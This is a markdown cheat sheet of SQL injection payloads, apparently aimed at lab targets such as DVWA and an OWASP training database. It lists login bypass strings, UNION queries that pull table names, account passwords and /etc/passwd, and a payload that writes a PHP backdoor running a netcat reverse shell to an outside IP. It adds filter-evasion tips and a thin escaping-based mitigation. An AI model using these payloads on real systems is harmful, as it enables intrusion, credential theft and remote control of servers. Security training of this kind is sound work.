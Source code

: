 # SQL Injection

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 
- Data Extracting 
  - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - ```?page=user-info.php&username=z' union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - ```?page=user-info.php&username=z' union select 1,username,password,is_admin,5 from accounts``` 
  - ```?page=user-info.php&username=z' union select null,load_file('/etc/passwd'),null,null,null``` 
- Shell upload 
  - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin:
    - nc -vv -l -p 8080
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```
- Tips
  - TRUE statements
    - ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1``` 
  - FALSE statements
    - ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```   
  - Spaces
    - ```+``` & ```/**/``` & ```%20``` 
    - ```orDeR bY 1 can be re-written as``` => ```orDer+bY+1``` or ```orDer/**/bY/**/1``` or ```orDer%20bY%201```
  - Comments to end the quries
    - ```/*``` & ```//``` & ```#``` & ```%23```
    - Sometimes you might need to add ';' before the comment
      - ```anD 1=1//``` => ```anD 1=1;//```

## Mitigation
- Secure Code for login in PHP
```PHP
$query = "SELECT * FROM accounts WHERE username='".
$conn->real_escape_string($username).
"'AND password='".
$conn->real_escape_string($password).
"'"
```
